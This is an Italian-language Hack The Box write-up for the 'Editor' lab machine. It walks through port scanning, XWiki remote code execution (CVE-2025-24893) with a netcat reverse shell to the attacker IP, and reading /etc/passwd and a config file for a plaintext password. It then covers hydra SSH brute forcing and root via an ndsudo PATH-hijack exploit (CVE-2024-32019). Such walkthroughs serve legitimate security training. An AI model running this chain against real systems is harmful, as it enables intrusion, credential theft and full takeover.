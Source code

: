 # Macchina Editor

IP vittima: 10.129.94.246 
IP attacante: 10.10.14.245

## Recon

`sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.94.246 -oG porte`

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251009220545.png)

Porte: 22, 80, 8080
`nmap -sC -sV -p22,80,8080 10.129.94.246 -oN servizi`

## Porta 8080

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251009221030.png)

## exploit CVE-2025-24893

Esiste un exploit per xwiki 15.10.10: CVE-2025-24893 (dal sito exploit-db)
Trovato uno script pyton per sfruttarlo
https://github.com/gunzf0x/CVE-2025-24893
Scaricato lo script, concessi i permessi di esecuzione(`chmod +x`)
mettersi in ascolto con netcat: `nc -nlvp 4500`
Lanciare lo script con il comando
`python3 CVE-2025-24893.py -t 'http://10.129.94.246:8080' -c 'busybox nc 10.10.14.245 4500 -e /bin/bash'`

Riusciamo entrare come utente xwiki

## username utente

con `cat /etc/passwd` vediamo l'elenco degli utenti tra cui compare l'utente oliver
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251011101549.png)

## password utente

Nella cartella /usr/lib/xwiki/WEB-INF c'è il file hibernate.cfg.xml nel quale troviamo la password 'theEd1t0rTeam99'
E' possibile velocizzare la ricerca della password con un comando grep che cerca la parola password in tutti i file leggibili: 
`grep -R -n --color=always "password" . 2>/dev/null`

## Porta 22

Possiamo provare ad entrare in ssh con utente oliver e password theEd1t0rTeam99

#### Nel caso non avessimo trovato il nome utente ma solo la password (o viceversa) si può provare un attacco brute force

tentiamo un brute force di ssh usando la password trovata e una lista di nomi utente con il comando
`hydra -t 4 -L /usr/share/seclists/Usernames/Names/malenames-usa-top1000-lower.txt -p "theEd1t0rTeam99" ssh://10.129.94.246`
Troviamo l'utente oliver
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251009222355.png)

entriamo in ssh con l'utente oliver e la password theEd1t0rTeam99
nella cartella /home/oliver troviamo il file user.txt che contiene la userflag

## scalata dei privilegi

con il comando 
`find / -perm -4000 -type f 2>/dev/null`
si cerca **all’interno di tutto il file system** (`/`) i file regolari (`-type f`) con il bit **SUID** impostato (`-perm -4000`)
si trova
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251009234444.png)

Si cerca un exploit per ndsudo
ndsudo è vulnerabile all'exploit CVE-2024-32019
qui troviamo uno script per l'exploit: https://github.com/AzureADTrent/CVE-2024-32019-POC
Scarichiamo sulla nostra macchina lo script in C per l'exploit poc.c
lo compiliamo con il comando gcc poc.c -o nvme
mandiamo il file compilato nvme nella cartella tmp della macchina vittima con il comando:
`scp nvme oliver@10.129.94.246:/tmp/ `
inserendo la password di oliver (theEd1t0rTeam99)
diamo al file nvme i permessi di esecuzione con chmod +x /tmp/nvme
aggiungiamo al PATH la cartella tmp con export PATH=/tmp:$PATH
lanciamo ndsudo con lo script nvme con `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`
Siamo diventati root
Nella cartella /root è presente il file root.txt che contiene la rootflagtroviamo la rootflag nel file `root.txt` 
